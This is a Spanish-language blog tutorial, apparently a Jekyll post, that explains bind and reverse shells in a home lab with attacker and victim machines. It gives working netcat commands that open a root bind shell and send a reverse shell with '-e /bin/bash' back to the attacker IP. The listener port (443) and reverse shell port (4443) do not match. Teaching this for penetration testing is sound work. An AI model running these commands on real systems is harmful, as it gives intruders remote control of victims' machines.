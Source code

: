 ```yaml
---
title: Tipos de Shell
author: nf4ll
date: 2022-10-01 14:35:24 +0000
categories: [Tutotial, Shells]
tags: [Scripting]
math: true
mermaid: true
image:
  path: /assets/img/posts/Shells/DifferentShells.PNG
  width: 757
  height: 585
---
```

# Qué es una shell

Una shell es un intérprete de comandos que proporciona al usuario una interfaz para ejecutar comandos de una manera sencilla. Cada sistema operativo tiene su propio intérprete de comandos, en Windows tenemos CMD. En los sistemas operativos basados en GNU/Linux, a diferencia de Windows, por defecto solemos tener como intérprete de comandos una Bash, pero también disponemos de otras como pueden ser una Zsh, que por defecto viene en Kali o una shell más básica como puede ser sh.

## Laboratorio

El laboratorio está compuesto de dos máquinas, la máquina atacante 192.168.1.101 (Parrot) y una máquina víctima 192.168.1.102 (Ubuntu 18.04). La máquina atacante posteriormente la llamaremos la máquina A mientras que la máquina víctima la llamaremos máquina B.

# Shells en hacking

En ciberseguridad a la hora de comprometer un sistema, tenemos varias fases. Una de esas fases se llama post-explotación, esta es la fase donde se ha comprometido la máquina, por lo que trataremos de escalar privilegios. Antes de saltar a ese paso vamos a obtener una shell de ese sistema para posteriormente terminar de realizar la escalada. Existen dos tipos de shell, que veremos a continuación.

## Bind Shell

Para obtener este tipo de shell, se realiza a través de una conexión directa, es decir, la máquina A se conecta a la máquina B. La máquina B estará en escucha y con una shell a la espera para cuando la máquina A se conecte.

![Desktop View](/assets/img/posts/Shells/bindShell.PNG)

### Ejemplo práctico

En primer lugar se realizaría la explotación y una vez que estamos dentro de la víctima, ejecutaremos el comando `ncat -nvlp 443 -e /bin/bash`. Esto quiere decir que la máquina B se queda en escucha por el puerto 443 y el sistema que se conecte al puerto recibirá una Bash. Es necesario ejecutar la escucha con el comando sudo, por lo que ejecutaríamos la shell siendo el usuario root. A continuación vamos a ver las dos máquinas.

Como hemos comentado primero la máquina víctima tiene que estar a la escucha. Los parámetros nos indican:
```bash
-l #Esta a la escucha
-n #No realiza resolución DNS
-v #Verbose
-p #Indica el puerto sobre el que realizamos la acción
-e #Ejecuta el programa
```

En la máquina atacante nos ponemos en escucha con la shell.

![Desktop View](/assets/img/posts/Shells/bindV.PNG)

En la máquina atacante realizamos una conexión indicando la IP y el puerto `nc 192.168.1.102 443`.

![Desktop View](/assets/img/posts/Shells/bindA.PNG)

Cuando realice la conexión ya tendríamos acceso a la máquina de forma remota, como se puede observar en la imagen, que se ejecuta el comando `whoami`. Como se observa tenemos, ejecución de comandos como root, ya que para ejecutar el comando mencionado anteriormente necesitamos privilegios.

## Reverse shell

Este tipo de shell, como bien dice su nombre se obtiene de forma inversa, por lo que la máquina B tendrá que enviar la petición de conexión a la máquina A. La máquina B al realizar la petición de conexión enviará la shell.

![Desktop View](/assets/img/posts/Shells/reverseShell.PNG)

### Ejemplo práctico

Después de realizar la explotación en la máquina A abrimos un puerto a la escucha, concretamente el puerto 443. Después la máquina B enviará la petición de escucha con la shell. Para ponerse a la escucha, la máquina A ejecutará el siguiente comando `nc -nlvp 443`.

![Desktop View](/assets/img/posts/Shells/reverseA1.PNG)

Una vez hemos puesto a la escucha la máquina A, le tocará a la máquina B realizar una petición como la siguiente:
```bash
nc 192.168.1.101 4443 -e /bin/bash
```

![Desktop View](/assets/img/posts/Shells/reverseV.PNG)

Recibimos la shell y tendríamos ejecución de comandos como usuario "ubuntu". A partir de aquí tendríamos que realizar la escalada de privilegios.

![Desktop View](/assets/img/posts/Shells/reverseA2.PNG)

Este tipo de Shell se puede obtener de muchas formas, como puede ser en una ejecución remota de comandos o cualquier vulnerabilidad que permita ejecutar comandos.

Para más reverse shell:
<https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>

## Extra
Las shell pueden ir cifradas usando el parámetro `--ssl`, aunque también se puede realizar la conexión con otras aplicaciones, como por ejemplo Socat. Con Socat puedes obtener una conexión cifrada, creando manualmente el certificado y para que se valide el cifrado, ambas máquinas deberán tenerlo.

## Conclusión
Las bind shell es una buena opción cuando la máquina víctima no tiene protecciones ya que en el caso de que existiesen firewalls o alguna medida de seguridad esta petición se bloquearía. Las reverse shell son buenas opciones cuando existen medidas de seguridad, porque un firewall no bloqueará la conexión saliente y se podrá obtener la reverse shell de forma exitosa. Por lo que depende de la situación, una shell será mejor que otra.
